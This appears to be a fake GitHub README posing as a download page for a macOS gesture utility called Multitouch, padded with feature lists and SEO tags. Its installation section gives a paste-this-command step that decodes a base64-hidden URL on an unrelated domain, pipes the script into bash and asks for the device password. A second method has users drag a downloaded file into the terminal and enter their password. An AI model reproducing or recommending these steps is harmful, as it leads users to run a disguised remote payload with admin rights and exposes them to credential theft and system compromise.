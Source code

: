 # Multitouch for Mac – Custom Multi-Gesture Control

![Multitouch Screenshot](https://multitouch.app/assets/images/spotlight02.png)

## 📥 Download Multitouch for macOS

[![⬇️ Download Multitouch](https://img.shields.io/badge/Download-Multitouch%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Multitouch)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below. 
```bash 
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Multitouch for Mac?

Multitouch is a powerful macOS utility that expands how you use your Mac's input devices. It lets you create custom multitouch gestures for your trackpad, Magic Mouse, or Magic Trackpad, allowing you to assign keyboard shortcuts, window snapping, or automation scripts to taps, swipes, pinches, and force clicks.

Perfect for power users and professionals, Multitouch enables you to replace complex workflows with intuitive gestures, saving time and improving comfort. Whether you're browsing, coding, or designing, the app integrates smoothly with the system, stays light on resources, and works flawlessly on both Intel and Apple Silicon Macs.

With full support for gesture mapping, per-app customization, and deep macOS integration, Multitouch becomes a must-have tool for those who demand control, speed, and elegance in their workflow.

---

## ⚙️ Key Features

- 👆 Customize gestures for mouse, trackpad, and Magic devices  
- 🧠 Assign actions like keystrokes, shortcuts, and scripts  
- 🪟 Window snapping and quick window control  
- 🔄 Multi-device support: MacBook, Magic Mouse, Trackpad  
- ⚡ Ultra-fast gesture recognition  
- 🧩 System-wide integration  
- 💻 Compatible with macOS Monterey, Ventura, and Sonoma  
- 🧬 Native M1/M2/M3 support  

---

## 📦 System Requirements

- macOS 10.13 (High Sierra) or later  
- Compatible with Monterey, Ventura, Sonoma  
- Works with Intel and Apple Silicon (M1/M2/M3) Macs  
- Minimum 100MB free disk space  

---

## 🔍 Tags

multitouch mac, apple multi touch mouse, apple multi touch trackpad, multi touch macbook, multi touch mouse mac, multitouch app mac, multitouch for mac, multitouch mac app, multitouch macos, multitouch mac download, mac trackpad gestures, customize mac gestures, magic trackpad mac, magic mouse gestures, multitouch gesture manager, multitouch mac utility, mac gesture control, mac multitouch tool, trackpad gesture software mac

---
